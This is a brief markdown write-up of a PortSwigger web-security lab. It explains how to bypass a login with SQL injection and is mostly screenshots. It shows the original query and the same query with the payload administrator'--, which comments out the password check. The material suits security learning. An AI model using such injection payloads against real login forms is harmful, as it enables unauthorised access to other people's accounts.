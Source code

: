 ## Lab Description :
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/1ca7809d-f736-496e-a186-69a54e499f2e)
## Solution :
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/fadd94b7-ebef-4a7d-875c-4ca3a69bac72)
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/f2b8d3da-0a07-4ac5-a0a5-1905bedc421f)

Query made -

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'password'
```

To bypass the login, we need to comment out the password part in WHERE clause.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'anygggg'
```
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/80889e38-9ae0-4b82-a7c1-a25864c2c1f7)
